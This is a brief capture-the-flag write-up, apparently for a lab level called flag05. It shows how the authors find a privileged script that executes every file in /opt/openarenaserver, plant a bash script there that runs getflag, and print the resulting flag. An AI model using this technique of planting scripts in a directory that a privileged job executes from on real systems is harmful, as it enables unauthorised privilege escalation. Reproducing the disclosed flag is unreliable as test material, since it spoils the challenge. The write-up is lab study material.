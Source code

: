 First we tried to find all the files owned by flag05 : find / -user flag05 2> /dev/null
this command gave us : 
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver

When we cat /usr/sbin/openarenaserver
We get : 

> #!/bin/sh

    > for i in /opt/openarenaserver/* ; do
     >        (ulimit -t 5; bash -x "$i")
    >         rm -f "$i"
    > done

This script just exec all script in /opt/openarenaserver and erase it.
So we created in this directory a little bash who do this : 

#!/bin/bash

getflag > /var/tmp/test.txt

This gave us the flag : viuaaale9huek52boumoomioc